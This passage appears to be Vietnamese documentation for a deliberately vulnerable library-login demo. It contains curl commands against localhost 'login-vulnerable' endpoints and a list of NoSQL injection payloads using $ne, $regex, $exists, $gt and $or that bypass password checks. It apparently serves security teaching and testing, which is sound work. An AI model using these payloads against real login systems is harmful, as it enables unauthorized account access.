 ```bash
# Test bypass authentication cho độc giả
curl -X POST http://localhost:5000/api/login-vulnerable/reader \
  -H "Content-Type: application/json" \
  -d '{"MaDocGia": {"$ne": null}, "MatKhau": {"$ne": null}}'

# Test bypass authentication cho nhân viên
curl -X POST http://localhost:5000/api/login-vulnerable/staff \
  -H "Content-Type: application/json" \
  -d '{"TaiKhoan": {"$ne": null}, "MatKhau": {"$ne": null}}'
```

## 💥 Các Payload NoSQL Injection

### 1. Bypass Authentication

```json
{
  "MaDocGia": { "$ne": null },
  "MatKhau": { "$ne": null }
}
```

### 2. Regex Injection

```json
{
  "MaDocGia": { "$regex": ".*" },
  "MatKhau": { "$regex": ".*" }
}
```

### 3. Exists Operator

```json
{
  "MaDocGia": { "$exists": true },
  "MatKhau": { "$exists": true }
}
```

### 4. Greater Than Injection

```json
{
  "MaDocGia": { "$gt": "" },
  "MatKhau": { "$gt": "" }
}
```

### 5. OR Injection

```json
{
  "$or": [
    { "MaDocGia": { "$exists": true } },
    { "Email": { "$exists": true } }
  ],
  "MatKhau": { "$ne": null }
}
```
